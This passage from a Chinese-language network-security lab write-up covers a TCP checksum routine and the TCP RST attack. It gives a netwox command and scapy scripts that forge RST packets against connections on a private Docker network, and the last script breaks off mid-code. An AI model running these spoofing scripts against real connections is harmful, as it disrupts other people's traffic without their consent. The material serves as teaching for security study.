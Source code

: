     int tcp_len = ntohs(ip->iph_len) - sizeof(struct ipheader);

    /* pseudo tcp header for the checksum computation */
    struct pseudo_tcp p_tcp;
    memset(&p_tcp, 0x0, sizeof(struct pseudo_tcp));

    p_tcp.saddr  = ip->iph_sourceip.s_addr;
    p_tcp.daddr  = ip->iph_destip.s_addr;
    p_tcp.mbz    = 0;
    p_tcp.ptcl   = IPPROTO_TCP;
    p_tcp.tcpl   = htons(tcp_len);
    memcpy(&p_tcp.tcp, tcp, tcp_len);

    return  (unsigned short) in_cksum((unsigned short *)&p_tcp,
                                        tcp_len + 12);
    }


## TCP RST攻击

在客户机和服务机连接的情况下

用wireshark抓包分析此时的seq和ack

### netwox

    netwox 78 -d docker0 -i 172.17.0.3

### scapy

手动需要wireshark抓包分析seq和ack

    #!/usr/bin/python3
    from scapy.all import *

    print("SENDING RESET PACKET.........")
    ip  = IP(src="172.17.0.2", dst="172.17.0.3")
    tcp = TCP(sport=23, dport=41290,flags="R",seq=1439095372)
    pkt = ip/tcp
    ls(pkt)
    send(pkt,verbose=0)

自动比较方便

    #!/usr/bin/python3
    from scapy.all import *

    SRC  = "172.17.0.3"
    DST  = "172.17.0.2"
    PORT = 23

    def spoof(pkt):
        old_tcp = pkt[TCP]
        old_ip  = pkt[IP]

        #############################################
        ip  =  IP( src   = old_ip.dst , 
                dst   = old_ip.src
                )
        tcp = TCP( sport = old_tcp.dport , 
                dport = old_tcp.sport , 
                seq   = old_tcp.ack ,
                flags = "R"
                ) 
        #############################################
